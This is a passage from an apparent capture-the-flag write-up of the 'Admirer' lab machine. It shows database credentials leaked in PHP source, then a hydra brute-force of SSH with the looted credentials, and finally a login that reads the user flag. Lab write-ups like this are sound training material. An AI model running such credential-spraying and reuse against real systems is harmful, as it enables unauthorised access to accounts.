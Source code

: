                     <!-- Wrapper -->
                            <div id="wrapper">

                                    <!-- Header -->
                                            <header id="header">
                                                    <h1><a href="index.html"><strong>Admirer</strong> of skills and visuals</a></h1>
                                                    <nav>
                                                            <ul>
                                                                    <li><a href="#footer" class="icon solid fa-info-circle">About</a></li>
                                                            </ul>
                                                    </nav>
                                            </header>

                                    <!-- Main -->
                                            <div id="main">
                                            <?php
                            $servername = "localhost";
                            $username = "waldo";
                            $password = "&<h5b~yK3F#{PaPB&dA}{H>";
                            $dbname = "admirerdb";


We can then connect to the local database with adminer but there is nothing
interesting there.

I have the habit to create two files `user` and `passwd` containing the looted
data. We use `hydra` to test the gather creds against the ssh service. The last
password found is a valid SSH password for the `waldo` user.

    :::text
    $ hydra -L user -P passwd ssh://10.10.10.187
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-05 05:22:06
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries (l:11/p:6), ~5 tries per task
    [DATA] attacking ssh://10.10.10.187:22/
    [22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
    [22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
    1 of 1 target successfully completed, 2 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-05 05:22:17

We can then connect to ssh and get the user flag.

    :::text
    kali@kali:~/pown/htb_admirer/loot/html$ ssh waldo@10.10.10.187
    waldo@10.10.10.187's password:
    <SNIP>
    waldo@admirer:~$ cat user.txt
    fea0c3468144ce6091631cfbfb6c81eb

# Way to root
